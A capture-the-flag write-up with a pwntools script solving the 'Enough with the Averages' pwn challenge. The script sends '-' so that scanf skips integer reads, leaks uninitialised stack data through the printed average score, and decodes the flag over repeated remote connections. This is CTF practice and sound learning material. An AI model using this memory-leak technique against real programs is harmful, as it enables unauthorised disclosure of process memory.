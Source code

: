 # Enough with the Averages

This is my script solution for the "Enough with the Averages" pwn challenge. It was an interesting challenge, and I spent a lot of time thinking it was an integer overflow. There’s probably a faster way to leak the flag, I believe there are also other possible solutions. In my case, the exploitation was possible because scanf skips characters when reading integers.

```python
#!/usr/bin/python3
from pwn import *
gs = '''
b vuln
continue
'''
elf = context.binary = ELF('./chall')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./chall', gdbscript=gs)
    if args.REMOTE:
        return remote('0.cloud.chals.io', 10198)
    else:
        return process('./chall')
r = start()
#========= exploit here ===================

def convert_leak(input_bytes):
    input_str = input_bytes.decode('utf-8')
    number = float(input_str)
    result = number * 20    
    int_result = int(result)    
    hex_result = hex(int_result)[2:]
    
    if len(hex_result) % 2 != 0:
        hex_result = '0' + hex_result
    
    byte_array = bytes.fromhex(hex_result)
    byte_array_reversed = byte_array[::-1]
    
    ascii_chars = []
    for byte in byte_array_reversed:
        char = chr(byte)
        if char.isprintable():
            ascii_chars.append(char)
        else:
            ascii_chars.append('?')  # Use '?' for non-printable characters
    
    return ''.join(ascii_chars)

leak_list = []

range1 = 4
range2 = 15

for j in range(15):

    r = remote('0.cloud.chals.io', 10198)
    log.info(f"interation {j}")

    score = 0

    for i in range(range1):
        r.sendlineafter(b"Enter score for player", f"{score}".encode('ascii'))

    r.sendlineafter(b"Enter score for player", b"-")
    #r.sendlineafter(b"Enter score for player", b"-")

    for i in range(range2):
        r.sendlineafter(b"Enter score for player", f"{score}".encode('ascii'))

    r.recvuntil(b"Average score is ")
    leak = r.recvline().strip()
    leak = leak[:-1]

    leak1 = convert_leak(leak)
    leak_list.append(leak1)
    log.info(f"leaking = {leak1}")

    range1 += 1
    range2 -= 1

    r.close()

log.info(f"flag = {''.join(leak_list)}")
```